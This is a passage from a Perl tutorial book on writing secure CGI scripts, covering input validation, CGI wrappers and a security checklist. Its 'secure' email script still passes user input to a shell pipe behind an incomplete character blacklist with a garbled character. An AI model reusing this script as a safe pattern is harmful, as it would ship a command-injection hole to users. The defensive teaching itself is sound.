\noindent \$dbname=\$cgi-$>$param('db')=\~{}/\^{}(\textbackslash w+)/ \&\& \$1;

\noindent 

\noindent This will extract any leading word characters in the string and ignore any invalid characters like trailing spaces or semicolons. If we want to be even more security conscious and actually flag an error on an invalid parameter, we can invert the regular expression to check for non-word characters:

\noindent 

\noindent 

\noindent \$dbname=\$cgi-$>$param('db');

\noindent return "Error - invalid character '\$1'" if \$dbname=\~{}/(\textbackslash W)/;

\noindent 

\noindent One final thought: If we do decide to deliberately undermine Perl's security measures and then get clobbered by an exploited security hole, we'll only have ourselves to blame!

\noindent 

\noindent 

\noindent An Example of a More Secure CGI Script

\noindent 

\noindent Having covered the basics of writing secure CGI scripts in Perl, it's time to see how to apply them. Earlier, we saw an insecure CGI script that attempted to email a greeting but could actually be used to

\noindent send any file on the server to a malicious user. Taking on board our new knowledge of security, here's a rewritten (and much improved) version of that same script:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#email\_secure.plx

\noindent use warnings;

\noindent use strict;

\noindent 

\noindent \#use CGI

\noindent use CGI qw(:all);

\noindent \$CGI::POST\_MAX=100; \#limit size of POST

\noindent 

\noindent \#set the search path explicitly

\noindent \$ENV\{'PATH'\}="/bin";

\noindent 

\noindent print header(),start\_html("Mail yourself a greeting");

\noindent my \$mail\_to=param('email');

\noindent 

\noindent \#check the email address is decent

\noindent if (not \$mail\_to or \$mail\_to !\~{} /\textbackslash @/) \{

\noindent print start\_form,

\noindent h2("Please enter an email address"),

\noindent p(textfield('email')),

\noindent p(submit),

\noindent endform;

\noindent \} elsif (\$mail\_to =\~{} tr/;$<$$>$*�`\&\$!\#[]\{\}:'"//) \{

\noindent print h2("Invalid address");

\noindent \} else \{

\noindent \#run an external mail program

\noindent if (open MAIL,"\textbar mail \$mail\_to") \{

\noindent print MAIL "Hello from Email!\textbackslash n";

\noindent close MAIL;

\noindent print h1("Greeting Sent!");

\noindent \} else \{

\noindent print h2("Failed to send: \$!");

\noindent \}

\noindent \}

\noindent print end\_html();

\noindent 

\noindent In this version of the  script,  we've  overridden  the  value  of  \$ENV\{'PATH'\},  though  we  could  also

\noindent have hard-coded the path of the  mail program  in  the  open  statement.  We  also  use CGI.pm to  parse the script's input,  handle either  GET  or  POST  requests,  and  set  the \$CGI::POST\_MAX variable,

\noindent which prevents our script being  overloaded  by  a  client  that  sends  more  data  in  a  POST request than we expect.

\noindent 

\noindent We retrieve the single CGI parameter using CGI.pm, so any URL-encoded characters in a GET request are decoded for us. We then check this address and generate a form if it's undefined or doesn't contain

\noindent an @-sign. If it does contain an @-sign but also contains strange punctuation, we return an error instead.

\noindent 

\noindent 

\noindent We use CGI.pm to generate the form, so if an email address is supplied, it's automatically put back into

\noindent the form for the user to correct. Assuming all is present and correct, we call the mail program to send a message and return a success or failure message depending on the result.

\noindent 

\noindent CGI Wrappers

\noindent 

\noindent Many web servers, particularly on UNIX platforms, provide a feature called CGI wrapping, or a secure CGI wrapper. For servers that are only hosting a single web site, wrappers are redundant, but most web server software allows a single machine to host many different sites, each of which has a different owner.

\noindent 

\noindent The advantage of a CGI wrapper is that the CGI script runs under the user ID of the owner of the web site on which it is installed, so that files owned by the system (or by other users on other websites) are hard to manipulate.

\noindent 

\noindent \textit{Without a wrapper, it's possible for an insecure file in one web site to be manipulated by an}

\noindent \textit{insecure CGI script running in another, since all the sites share the same server and the script runs under the default server user.}

\noindent 

\noindent However, it's not all good news: The script runs under the same user ID as the user whose files are on

\noindent the web site on which the script's installed. It's therefore more able to manipulate those files in ways that the owner didn't intend.

\noindent 

\noindent In other words, wrappers decrease the security of the individual web site in order to increase the security of the server as a whole. If there's only one web site running on a server, then CGI wrappers actually produce a net decrease in security.

\noindent 

\noindent The use of CGI wrappers varies from server to server and installation to installation. Before installing a

\noindent CGI script on a web site, it's best to check the security policies of the server administrators, and write the script accordingly.

\noindent 

\noindent A Simple Security Checklist

\noindent 

\noindent Here are a few general rules to follow when writing or installing CGI scripts. Of course, they can't be exhaustive, but they should provide you with a good starting point:

\noindent 

\noindent ? Avoid putting data files for CGI scripts in /tmp (UNIX) or anywhere else that has global access privileges. If possible, give files the minimum permissions they need for the script to work. If a CGI script needs to create files, consider using chmod g+s (UNIX) to create a permissive but not totally open directory.

\noindent 

\noindent ? Don't assume that a hidden form field is immutable. CGI scripts often encode presets or previously filled-in values with a hidden input field. If the data in these fields is crucial to the script's function, then a client that modifies them can cause problems if the script does not make adequate checks. Remember that a user can easily save an HTML form, modify it, and then call our script from their modified copy.

\noindent 

\noindent 

\noindent ? Do not make assumptions about the quantity of input that a client is going to provide. Just

\noindent because a form contains a field that is intended to receive someone's first name does not prevent a client sending back several kilobytes (or even megabytes) where a script only

\noindent expects a few characters. We can limit the amount of data that a client is allowed to post (with

\noindent a POST or PUT -- GET is by nature limited as we saw earlier) by using CGI.pm and setting the variable \$CGI::POST\_MAX. For example:

\noindent 

\noindent \$CGI::POST\_MAX=102400; \#100k maximum POST size

\noindent 

\noindent ? Use the non-shell versions of system and exec. See \textit{Executing External Programs }for more information.

\noindent 

\noindent ? When using open to read from the output of an external program, do not pass parameters with the command but use the special "\textbar -" filename with open and exec to do the actual execution.

\noindent See \textit{Executing External Programs }for an example.

\noindent 

\noindent ? Check all externally sourced variables, especially those derived from user input and the search path when executing external commands based on those values.

\noindent 

\noindent ? To help with checking input, always use Perl's taint-checking mode (-T).

\noindent 

\noindent ? Take advantage of any security features provided by external programs to help with possible security attacks. For example, sendmail offers the -t switch to ignore any destination address given on the command line and deduce the destination from the body of the email instead.

\noindent 

\noindent ? Do not leave old versions of CGI scripts on the server. Remove any that are no longer used or unnecessary.

\noindent 

\noindent ? Do not edit the live version of a CGI script. First, this can create temporary bugs or security holes. Second, if an editor creates a temporary file during the editing session, it may be readable by a client, thus providing them with the source code.

\noindent 

\noindent ? Don't leave backup files on the server. Many editors leave backup files (often suffixed with

\noindent .bak or \~{}) in the same directory as an edited script. Again, these could potentially be read by

\noindent a client. Preferably, the server should be configured to refuse to deliver files with problem extensions, too.

\noindent 

\noindent ? If possible, use a cgi-bin directory that's located outside the document root, so CGI scripts don't mix with the regular non-dynamic content of the web site.

\noindent 

\noindent ? Never install a copy of the Perl executable where it can be executed directly, in the cgi-bin or otherwise. Since Perl can be given arbitrary code to execute on the command line, this is just asking for trouble.

\noindent 

\noindent 

\noindent Summary

\noindent 

\noindent CGI  programming  is  indelible.  It  has  been  around  for  nearly  as  long  as  the Web,  and  writing  CGI  in the Perl  language has set the standards  in  the  past  (In  case  you're  worried,  yes,  it  continues  to  do  so today.).  Perl has  become the  language  of  choice  for  CGI  programmers;  because  of  its remarkable  text handling  capabilities and the nature  of the  request-response  cycle,  it  has been  found  to  be  ideally

\noindent suited for this purpose.

\noindent 

\noindent In  this  chapter we  have been through the task of setting up, learning how to write simple scripts, understanding the difference between the GET and POST methods, and seeing a wide variety of other bits and pieces that make up the whole of CGI. Among other things, we've learned how to code for interactive web pages, generate HTML programmatically, and save and load CGI states.

\noindent 

\noindent After drawing on techniques and methods used earlier in the book, ranging from simple syntax to loops and structures, you can now start looking forward to creating your own scripts that have the hallmarks

\noindent of good programming practice. You have the basic tools. Now the only limit is your imagination.

\noindent  

\noindent  

\noindent  

\noindent  

\noindent 

\noindent \includegraphics[bb=0mm 0mm 208mm 296mm, width=185.2mm, height=196.3mm, viewport=3mm 4mm 205mm 292mm]{image24.ps}

\noindent 

\noindent This work is licensed under the Creative Commons Attribution-NoDerivs-NonCommercial License. To view a copy of this

\noindent license, visit http://creativecommons.org/licenses/by-nd-nc/1.0 or send a letter to Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.

\noindent 

\noindent The key terms of this license are:

\noindent 

\noindent Attribution: The licensor permits others to copy, distribute, display, and perform the work. In return, licensees must give the original author credit.

\noindent 

\noindent No  Derivative  Works: The licensor permits others to copy, distribute, display and perform only unaltered copies of the work -- not derivative works based on it.

\noindent 

\noindent Noncommercial: The licensor permits others to copy, distribute, display, and perform the work. In return, licensees may not use the work for commercial purposes -- unless they get the licensor's permission.


\end{document}

